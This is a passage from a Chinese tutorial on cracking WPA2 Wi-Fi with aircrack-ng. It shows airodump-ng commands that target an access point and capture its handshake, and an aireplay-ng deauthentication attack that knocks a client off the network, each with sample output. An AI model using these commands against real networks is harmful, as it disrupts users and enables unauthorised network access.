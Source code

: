 这一步会输出两个列表，两个列表不停在刷新。

第一个列表表示扫描到的无线网络 AP 信息，会用到以下几列信息：

* BSSID: 无线 AP 的硬件地址
* PWR: 信号强度，值是负数，绝对值越小表示信号越强
* CH: 无线网络信道
* ENC: 加密方式，我们要破解的是 WPA2
* ESSID: 无线网络的名称

第二个列表表示某个无线网络中和用户设备的连接信息：

* BSSID: 无线 AP 的硬件地址
* STATION: 用户设备的硬件地址

扫描列表会不停刷新，确定最终目标后按 Ctrl-C 退出。

这里仅仅是演示，所以列表只保留了一条结果。

### 5. 使用参数过滤扫描列表，确定扫描目标

使用命令：`airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称>`

~~~
netcon@conwlt:~/workspace$ sudo airodump-ng -w android -c 6 --bssid 22:47:DA:62:2A:F0 wlp8s0mon


 CH  5 ][ Elapsed: 12 s ][ 2018-10-07 18:49 ][ WPA handshake: 22:47:DA:62:2A:F0

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 22:47:DA:62:2A:F0  -33 100     1597      387   11   6  54e. WPA2 CCMP   PSK  AndroidAP

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                  

 22:47:DA:62:2A:F0  AC:BC:32:96:31:8D  -32    1e-24e  1691     2657

~~~

刚扫描时看到输出的扫描状态是这样的：`CH  5 ][ Elapsed: 12 s ][ 2018-10-07 18:49`。

只有当扫描状态后面出现 ` ][ WPA handshake: 22:47:DA:62:2A:F0` 后，我们才拿到拿到进行破解的握手包。

扫描过程中如果有用户设备尝试连接 Wi-Fi 时，我们就会拿到握手包。

所以我们可以同时使用 `aireplay-ng` 对目标设备进行攻击，使其掉线重新连接，这样我们就拿到了握手包。

拿到握手包后按 Ctrl-C 结束扫描即可。

### 6. 使用 aireplay-ng 对目标设备发起攻击

使用命令：`aireplay-ng -<攻击模式> <攻击次数> -a 无线 AP 硬件地址> -c <用户设备硬件地址> <处于监听模式的网卡名称>`

~~~
netcon@conwlt:~$ sudo aireplay-ng -0 0 -a 22:47:DA:62:2A:F0 -c AC:BC:32:96:31:8D wlp8s0mon
18:57:31  Waiting for beacon frame (BSSID: 22:47:DA:62:2A:F0) on channel 6
18:57:32  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [41|64 ACKs]
18:57:33  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [19|121 ACKs]
18:57:33  Sending 64 directed DeAuth. STMAC: [AC:BC:32:96:31:8D] [11|80 ACKs]
...
~~~
